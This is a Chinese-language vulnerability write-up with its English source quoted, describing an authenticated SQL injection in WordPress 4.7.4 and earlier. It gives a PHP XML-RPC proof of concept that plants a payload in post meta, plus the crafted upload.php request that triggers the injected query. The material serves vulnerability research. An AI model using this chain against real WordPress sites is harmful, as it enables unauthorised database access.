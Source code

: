 ```yaml
---
title: "Wordpress <= 4.7.4 XML-RPC API POST META 未校验漏洞"
id: zhfly3257
---
```


# Wordpress <= 4.7.4 XML-RPC API POST META 未校验漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 中文版

以作者身份登录到您的wordpress

上传图片

记住图像/媒体的ID

创建帖子并将图像设置为特色图像（这将创建_thumbnail_id帖子元）

记住帖子ID

我们可以通过修改_thumbnail_id的值来编辑的值（6是帖子ID，5是图片/帖子ID）

### poc

```
$usr = 'author';
$pwd = 'author';
$xmlrpc = 'http://local.target/xmlrpc.php';
$client = new IXR_Client($xmlrpc);
$content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"xxx"));
$res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content); 
```

通过这段代码，我们在数据库中添加以下负载

```
5 %1$%s hello 
```

执行SQL负载

使用作者帐户登录管理面板，转到媒体，例如

```
http://0-sec.org/wp-admin/upload.php 
```

通过_wpnonce参数可以直接进行sql注入

```
http://0-sec.org/wp-admin/upload.php?_wpnonce=daab7cfabf&action=delete&media%5B%5D=5%20%251%24%25s%20hello 
```

其中5 %1$%s hello的encode编码是5%20%251%24%25s%20hello这个请求将导致数据库执行以下查询（会有错误）

```
SELECT post_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id' AND meta_value = '5 _thumbnail_id' hello' 
```

这证明了Wordpress中的sql漏洞，正如5%1$%s之后的前一个post值中提到的，hello就是我们的payload

### 英文原文

In order to understand the writing here, you need to read the previous explanation https://medium.com/websec/wordpress-sqli-bbb2afcc8e94\. If you got it, then we can jump to the part and solve the question e.g. how to update / insert our sql payload into _thumbnail_id post meta.

#### PoC start

*   Login to your wordpress as author
*   Upload image
*   Remember ID of the image / media
*   Create post and set image as featured image (this creates _thumbnail_id post meta)
*   Remember the post ID

#### Wordpress ≤ 4.7.4 XML-RPC

n case of appropriate wordpress version then we can use the third vulnerability in this versions of wordpress https://wordpress.org/news/2017/05/wordpress-4-7-5/ e.g.

```
Lack of capability checks for post meta data in the XML-RPC API. 
```

This means that we can edit the value of _thumbnail_id with the following code ( 6 is the post ID and 5 is image/post ID )

```
$usr = 'author';
$pwd = 'author';
$xmlrpc = 'http://local.target/xmlrpc.php';
$client = new IXR_Client($xmlrpc);
$content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"5 %1$%s hello"));
$res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content); 
```

and with this code we add the following payload in the DB 5 %1$%s hello

#### Wordpress importer plugin — any version of wordpress

This is another approach for changing the _thumbnail_id value in the database. If wordpress instance have enabled this plugin on it, then simple export, change meta value and import will do the job.

#### Execute the SQL payload

Login to the administration panel with your author account, go to media e.g. http://local.target/wp-admin/upload.php , grab the _wpnonce value and we are ready to prove our SQLi vulnerability. Issue the following request towards your local instance:

```
local.target/wp-admin/upload.php?_wpnonce=daab7cfabf&action=delete&media%5B%5D=5%20%251%24%25s%20hello 
```

where 5%20%251%24%25s%20hello is url encoded 5 %1$%s hello. This request will result with execution of the following query against the DB (will rise error of course):

```
SELECT post_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id' AND meta_value = '5 _thumbnail_id' hello' 
```

This proves the SQLi vulnerability in the wordpress and as mention in previous post value after 5 %1$%s e.g. hello is our payload

#### Is this vulnerability dangerous?

SQL injection itself is quite dangerous vulnerability, but sometimes have its own limitations. Here at our case depending of the database server configuration or mysql client used on PHP side could be fatal, but in our case best case scenario would be blind sql injection. Sure, we all know the trivial attack vector, but here we have 2 facts that go against wordpress:

*   meta value database column type e.g. size constraint
*   media parameter could be POST parameter e.g. will have huge size

This two facts guide us to the conclusion that even with blind sqli one query would be enough to calculate some crucial DB cell value.